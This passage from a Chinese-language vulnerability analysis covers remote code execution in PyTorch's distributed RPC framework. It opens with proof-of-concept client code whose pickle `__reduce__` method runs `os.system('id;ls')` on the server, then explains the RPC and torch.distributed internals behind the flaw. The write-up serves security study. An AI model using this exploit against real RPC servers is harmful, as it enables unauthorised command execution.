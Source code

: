    ```python
       # 定义一个魔术方法
       def __reduce__(self):
           return (__import__('os').system, ("id;ls",))
   
   def run_client():
       # 初始化RPC环境，指定客户端名称、排名和世界大小
       rpc.init_rpc(name="client", rank=1, world_size=2)
   
       # 远程调用服务器端的函数
       remote_model = RemoteModule(
           "server",
           MyModel(),
           args=()
       )
       
       input_tensor = torch.tensor([1.0, 2.0])
       output = remote_model(input_tensor)
   
       print(f"Output from server: {output}")
   
       rpc.shutdown()
                                    
   if __name__ == "__main__":
       run_client()
   ```

5. 运行服务端，运行用户端，攻击完成

# 漏洞原理

## PyTorch分布式

​		PyTorch分布式库包含一组并行模块、<font color="red">通信层</font>以及用于启动和调试大型训练作业的基础设施

## 分布式通信包 - torch.distributed

​		`torch.distributed`支持三个内置后端，每个后端有不同的功能。这里的后端指的是用于在多台机器或多个进程之间进行通信和同步的底层技术和协议。不同的后端适用于不同的环境和应用需求，主要影响分布式训练的性能、可扩展性和兼容性等方面。

- **Gloo**：一个通用的系统，适用于大多数情况下的进程间通信（IPC），并且可以在TCP和共享内存之上运行。
- **MPI (Message Passing Interface)**：一种广泛使用的接口规范，用于编写并行计算机程序。
- **NCCL (NVIDIA Collective Communications Library)**：针对NVIDIA GPU优化的库，提供了高效的集合通信原语，如all-reduce，尤其适合多GPU环境。

## 分布式RPC框架

​		提供了一套用于多机模型训练的机制，通过一组用于远程通信的原语以及一个更高级别的API来自动微分跨多个机器拆分的模型。RPC的实现依赖于`torch.distributed`的后端来进行实际的消息传递和数据传输。当通过 RPC 调用远程函数时，后端负责将调用请求和相关参数发送到目标进程，并将目标进程的返回结果传递回调用方。

## RemoteModule模块


[^1]: 在 PyTorch 仓库中 torch/jit 模块中的 `_builtins.py` 负责定义 Python 内置函数与 PyTorch 内部操作（aten）之间的映射。其中维护了一张内置表，它映射了用户定义的函数或类到它们对应的序列化标识符。这个表用于加速和简化函数或类的序列化和反序列化过程：这样的机制可以确保一些常用的、内置的或者是特别注册过的函数能够在不同进程间高效地传递，而不需要每次都对它们进行完整的序列化操作。这有助于提高性能并减少通信开销。
[^2]: `torch.jit.ScriptFunction` 是 PyTorch 中用于表示通过 TorchScript 编译的函数的一个类。TorchScript 是 PyTorch 的一种中间表示（IR），它允许将 Python 代码转换为可以独立于 Python 解释器运行的序列化模型或函数。这使得模型可以在没有 Python 环境的情况下部署。当开发者编写一个函数并希望将其转换为 `torch.jit.ScriptFunction` 时，可以使用 `torch.jit.script` 函数来编译它。如果有一个已经存在的模块并且想要编译整个模块，则可以使用 `torch.jit.trace` 或 `torch.jit.script` 方法。
[^3]: PyhtonUDF 元组是在 torch.distributed.rpc 模块中的 `internal.py` 定义的，通过 `PythonUDF = collections.namedtuple("PythonUDF", ["func", "args", "kwargs"])` 来定义的具名元组。
[^4]: 这个函数用于在远程节点上执行 Python 用户定义函数，在 `torch/csrc/distributed/rpc/init.cpp` 中定义，通过 `pybind11` 绑定到 Python 。函数定义是这样的
[^5]: 这里的 `processMessage` 实现不是 `RequestCallbackImpl` 类自身实现的，而是继承自类 `RequestCallbackNoPython`